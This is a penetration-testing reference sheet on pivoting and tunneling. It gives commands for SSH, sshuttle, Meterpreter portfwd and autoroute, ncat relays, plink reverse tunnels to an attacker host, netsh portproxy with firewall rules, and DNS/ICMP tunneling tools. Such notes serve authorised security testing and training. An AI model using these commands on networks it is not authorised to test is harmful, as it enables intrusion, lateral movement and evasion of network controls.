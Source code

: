 Pivoting/Tunneling

# Pivoting/Tunneling

### SSH Tunneling

Note: Target must have SSH running for there service

1. Create SSH Tunnel: `ssh -D localhost:<local port> -f -N user@localhost -p <Target Port>`
2. Setup ProxyChains. Edit the following config file (/etc/proxychains.conf)
3. Add the following line into the config: `Socks5 127.0.0.1 <Local Port>`
4. Run commands through the tunnel: `proxychains <command>`

### SShuttle

In Kali

Source: https://github.com/sshuttle/sshuttle

- sshuttle -r root@172.21.0.0 10.2.2.0/24

---

### Meterpreter

Use only if you have a meterpreter shell and you need to pivot to another network.

### Portfwd

- meterpreter > portfwd add -l 80 -r 172.21.0.0 -p 80

### Autoroute
In Metasploit
1. use post/multi/manage/autoroute
```
msf5 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on.
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf5 post(multi/manage/autoroute) > 
```
2. set session <avaliable session>
3. run  

### Metasploit Socks Proxy

   1  auxiliary/server/socks4a                                  normal  No     Socks4a Proxy Server
   2  auxiliary/server/socks5                                   normal  No     Socks5 Proxy Server
   3  auxiliary/server/socks_unc                                normal  No     SOCKS Proxy UNC Path Redirection

---

### Ncat Http Proxy
- ncat -vv --listen 3128 --proxy-type http

### Ncat Port Forwarder
1. mknod pivot p
2. nc -l -p < port to listen on> 0<pivot | nc <target> <pivot-port> 1>pivot

### Plink Port Forwarder on Windows:

\# plink in an interactive shell
```
plink.exe -ssh -L 0.0.0.0:4444:10.1.1.1:445 admin@10.10.1.1
plink.exe -ssh -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
plink.exe -ssh -D 127.0.0.1:8080 admin@10.10.1.1
```
\# plink in non interactive shell
```
cmd.exe /c echo y | plink.exe -ssh -l admin -pw password -R 10.10.1.1:4444:127.0.0.1:445 attacker@10.10.1.1
```

netsh local port forwarding:
```
netsh interface portproxy add v4tov4 listenaddress=10.1.1.1 listenport:4444 connectaddress:10.1.1.1 connectport:3306
netsh advfirewall firewall add rule name="4444_to_3306" protocol=TCP dir=in localip=127.0.0.1 localport=3306 action=allow
```

From <https://werebug.com/pentest-cheatsheet/#port-forwarding>

---

### Cntlm

```
apt install cntlm
cntlm -u username@breakme.local -I proxy
export http://127.0.0.1:3128, export https://127.0.0.1:3128
```
3. Accessing with browser: 
```
chromium --proxy-server="http://127.0.0.1:3128"
```

### netsh port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=9000 connectaddress=192.168.0.10 connectport=80
netsh interface portproxy delete v4tov4 listenaddress=127.0.0.1 listenport=9000
```

---

#### Proxy Binaries for Windows
Windows 10 has SSH (Thanks WSL!)
plink.exe (In Kali)

---

### Dymanic Port Forwarding

`ssh -N -D 127.0.0.1:1337 user@remotehost -p 22222`

- The `-D` means dynamic. The `1337` is the port you proxy traffic through. With this you can setup a Socks proxy on your local machine to send traffic to port `1337`, thus said traffic will be sent through that port, and then through the remote host. `-N` is optional, it means do not execute a remote command. Specifying `127.0.0.1` is also optional. It'll default to `127.0.0.1`.


Via Putty:

![7932713a8bcbffe427c49ea86bef48e8.png](8ae70fb273f241f38c68702ce3933864.png)

---

### Port Forwarding

**Local port forwarding**

`ssh -N -L 0.0.0.0:4455:10.1.1.1:445 user@remotehost`

or

`ssh -L 8080:localhost:8080 user@remotehost`

The -L stands for local. First 8080 is port of your machine, 2nd 8080 is port of remote machine (doesn't have to be the same port). After successful ssh connection, if you request localhost:8080 (like from your browser, if you're trying to access a localling listening web server on the remote machine) that request will be send through that ssh tunnel to that remote host and you will be able to connect to that remote service. 
In other words, what this tunnel does is whatever request you sent to your localhost it will be forwarded to remote localhost.

**Remote port forwarding**
- `ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1`

**Socks5 with SSH**
- `ssh -N -D 127.0.0.1:8888 admin@10.1.1.1`

---

## Other Tools:
- ssf: https://github.com/securesocketfunneling/ssf
- rpivot: https://github.com/klsecservices/rpivot
- hans (ICMP Tunneling): http://code.gerade.org/hans/
- Iodine (ICMP Tunneling over DNS): https://code.kryo.se/iodine/
- Dnscat2: https://github.com/iagox86/dnscat2
- Chisel: https://github.com/jpillora/chisel
- httptunnel: In Kali apt install httptunnel

## Other Resources:

- https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
- https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/
